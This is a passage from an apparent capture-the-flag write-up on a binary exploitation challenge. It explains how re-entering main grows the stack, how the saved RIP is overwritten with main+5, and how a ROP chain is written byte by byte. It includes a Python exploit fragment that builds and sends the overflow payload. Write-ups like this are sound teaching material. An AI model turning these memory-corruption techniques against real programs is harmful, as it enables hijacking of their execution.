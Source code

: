 The `main` function (and every function, in fact) runs `push rbp` at the very start. This creates more space on the stack. Typically, this doesn't actually change anything because every function runs `pop rbp` (or `leave`) before the function returns. However, since we never let `main` return, this never happens, causing our stack to grow by 0x8 bytes every time we call `main`!  

To fix this, we can simply overwrite `saved RIP` with `main+5`. This ensures that the stack doesn't grow, and therefore we can freely write our ROP chain.  

Also note that writing `main+5` only changes the number of required increments from `0xe5` to `0xea`. We still have enough space to arbitrarily change a single byte, so our exploit doesn't need to change anything about that -- we can still do byte-by-byte modification!  

### flag time yay!

Now we can finally implement this writing process and finish the script! There's just a few small extra steps in my implementation, which I'll briefly mention:  
- I grew the stack twice to allocate space for the ROP (I overwrote the saved RIP with `main` instead of `main=5` twice) -- pretty sure it's not a necessary step, but I left in there because I was trying something out previously  
- In the very last step, I overwrote the saved RIP with a `ret` gadget. Technically could've done this during the very last write of the ROP chain, but it was easier to implement this way  

Anyways, here's the whole process:  

```py
###################################
#==========BEGIN EXPLOIT==========#
###################################

#-------OVERWRITE SAVED RIP-------#

OVERFLOW_CONSTANT = 0x100
MAX_LEN = 0x200
SAVED_RIP = elf.sym.main+0x1c

def change_addr(original: int, new: int, offset: int, num_writes: int=0x8):
    freqs = [0 for _ in range(num_writes)]

    for i in range(num_writes):
        freqs[i] = (new & 0xff) - (original & 0xff)
        if freqs[i] < 0: freqs[i] = OVERFLOW_CONSTANT + freqs[i]
        
        new >>= 8
        original >>= 8

    if sum(freqs) > MAX_LEN:
        raise OverflowError(f'Too many writes {hex(sum(freqs))}\n{list(map(hex, freqs))}')
    
    writes = []
    for i in range(num_writes):
        writes += [offset + i]*freqs[i]
    
    return writes



increase_BFD_0x100 = [OVERFLOW_CONSTANT - 0xf]
payload = bytes(increase_BFD_0x100 + change_addr(SAVED_RIP, elf.sym.main, 3*0x8))
assert len(payload) <= MAX_LEN
payload = payload.rjust(MAX_LEN, b'\x00')
send(payload, line=False)

#----------PROCESS LEAKS----------#

if 'GDB' in args: input()

```